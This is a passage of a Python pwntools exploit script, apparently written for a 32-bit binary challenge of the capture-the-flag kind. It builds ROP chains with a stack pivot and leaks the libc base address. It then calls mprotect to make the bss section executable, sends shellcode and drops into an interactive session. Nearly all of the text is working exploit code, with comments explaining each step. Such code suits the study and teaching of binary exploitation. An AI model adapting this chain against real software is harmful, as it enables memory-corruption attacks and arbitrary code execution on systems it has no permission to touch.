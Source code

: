```python
    for i in range(100):
        pivot_chain.raw(RET)
    # and lastly we use the plt stub to convince the dynamic linker into retrieving the original read pointer
    # allowing us to read again and inject a second rop chain
    # we're reading 11 * 4 bytes (size of the second pivot stack) into a location in the bss slightly after our previous rop chain ends
    pivot_chain.call(0x8048396, [0, 0x0804b260, 11 * 4])
    log.info("pivot chain created")
    log.info(pivot_chain.dump())

    pivot_payload += pivot_chain.chain()
    pivot_payload += p32(pivoted_stack_1 + len(pivot_payload) + 4) + b"/bin/bash".ljust(16,b"\x00")

    rop = ROP(exe)
    rop.read(0, pivoted_stack_1, len(pivot_payload))
    rop.raw(LEAVE_RET)
    # we override the stored ebp with pivoted_stack_1 so this will copy ebp, esp and adjust the stack to the new location
    # we previously read an arbitrarily large rop chain to that area
    log.info("first chain created")
    log.info(rop.dump())

    r.send(payload + p32(pivoted_stack_1) + rop.chain())
    time.sleep(1)
    r.send(pivot_payload)
    time.sleep(1)
    r.send(p8(244))
    time.sleep(1)


    libc_base = u32(r.recv(4)) - 0x0001aa50 # offset of __libc_start_main

    log.info(f"leaked libc_base @ {hex(libc_base)}")


    execve = libc_base + 0x000c0470
    mprotect = libc_base + 0x000f5940
    read = libc_base + 0x000e7ea0

    shellcode = b""
    shellcode += asm(shellcraft.i386.linux.open("./log", 2))
    shellcode += asm(shellcraft.i386.linux.echo("DONE\n",sock="eax"))
    shellcode += asm(shellcraft.i386.linux.exit(0x2c))
    

    shellcode_loc = 0x0804b284+8 # just took the end of the rop chain and added a bit so they wouldn't run over each other

    # the second rop chain is created with knowledge of libc base
    # so no need to do anything tricky with read
    # I just call mprotect to make bss rwx, write shellcode, and then return to it
    pivot_chain_2 = ROP(exe)
    pivot_chain_2.call(mprotect, [0x0804b000, 0x2000, 7])
    pivot_chain_2.call(read, [0, shellcode_loc, len(shellcode)])
    pivot_chain_2.raw(shellcode_loc)
    log.info("created second pivot chain")
    log.info(pivot_chain_2.dump())
    r.send(pivot_chain_2.chain())
    r.send(shellcode)

r.interactive()
```